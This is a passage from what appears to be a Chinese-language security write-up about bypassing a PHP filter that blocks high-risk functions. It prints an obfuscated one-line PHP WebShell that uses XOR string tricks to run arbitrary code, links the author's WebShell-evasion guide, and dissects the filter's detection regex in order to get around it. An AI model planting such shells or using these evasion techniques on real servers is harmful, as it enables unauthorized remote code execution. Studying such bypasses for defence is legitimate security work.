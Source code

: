 首先，既然过滤了这么多高危函数，那我马上想到了我写的免杀手册的第一个实例，这里面可是一个高危函数都没有的：

```bash
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

如果不懂这个 WebShell 的原理，可以看开源项目的 12.1 部分：[https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md](https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md)

[![](assets/1707953853-364cba869759a5a30e4e34af2408264e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206103322-18ddfe18-c498-1.png)

没想到第一个 WebShell 就翻车了，这时候的我心理活动：咦不应该啊？  
然后我又把整个正则匹配式看了一遍，找到了关键的正则匹配式：

```bash
'\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)'
```

这个正则表达式要怎么理解呢，我们可以拆开用以下四部分来分析：

```bash
\$                         # 第一部分
[\w-_\'\\[\\]{}\.\$\*/|]+  # 第二部分
(\s|\/\*.*?\*\/)*          # 第三部分
\(.*?\)                    # 第四部分
```

-   第一部分：最开头匹配符号 `$`
-   第二部分：匹配一个或多个字符，这些字符可以是：字母数字下划线、单引号、反斜杠、方括号、花括号、点、`$`符号、星号、斜杠、竖线
-   第三部分：匹配零个或多个空白字符（\\s）或注释（/ / 形式的内容）。
-   第四部分：用非贪婪模式匹配括号内的任意字符

那现在，让我们将这些部分组合起来，可以清楚地理解整个正则表达式的匹配内容：

-   第一部分：匹配以 `$` 符号开头的单词（变量名）
-   第二部分：匹配一个或多个允许的字符，形成变量名的其余部分，比如 `$f` 或者 `$_`
-   第三部分：匹配零个或多个空白字符或注释，应该是防止中间掺杂垃圾字符干扰正则
-   第四部分：匹配括号内的任意字符，相当于不检测括号内的内容

**相当于检测到外部变量想要作为函数执行括号内的内容就拦截，那这条正则匹配式能拦截啥呢？比如：**

[![](assets/1707953853-6988429fc2112595357fad09608119e4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206103337-217fbe1c-c498-1.png)

